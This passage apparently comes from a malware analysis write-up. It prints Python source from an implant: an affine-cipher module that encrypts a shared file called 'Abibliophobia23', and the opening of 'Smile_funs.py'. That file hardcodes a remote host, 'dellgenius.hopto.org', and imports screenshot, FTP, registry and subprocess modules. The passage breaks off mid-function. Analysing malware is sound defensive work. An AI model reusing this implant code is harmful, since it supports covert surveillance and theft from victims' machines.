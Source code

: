 ```python
        K1, K2, KI = self.KEY
        return chr(KI * (ord(str(char)) - K2) % self.DIE)

    def decrypt(self, string):
        try:
            string = string.decode()
        except:
            pass
        st = "".join(map(self.decrypt_char, string))
        return base64.b64decode(st.encode()).decode("utf-8")

```
Affine script is used as encryption/decryption module it's initialized
in all scripts communicating through "**Abibliophobia23**" file, noting
that all writing/reading this file is always accompanied by
encrypting/decrypting function used

## **Smile_funs.py**

```python
import argparse
import glob
import os
import platform
import shlex
import shutil
import stat
import sys
import time
import winreg
import zipfile
from ftplib import FTP
from getpass import getuser
from random import uniform
from subprocess import Popen, PIPE

import chardet
import mss
from tabulate import tabulate

from affine import Affine

RHOST = "dellgenius.hopto.org"
me = sys.argv[0]
fold = me[:me.rfind("\\") + 1]
pipe_out = fold + "Abibliophobia23"
processes = []


############ Internal ############
class ArgumentParser(argparse.ArgumentParser):
    def error(self, message):
        args = {'prog': self.prog, 'message': message}
        raise AttributeError(self.format_help() + '\n%(prog)s: error: %(message)s\n' % args)

    def exit(self, status=0, message=None):
        if message:
            raise Exception(message)

    def print_usage(self, file=None):
        if file is None:
            raise Exception(self.format_usage())
        else:
```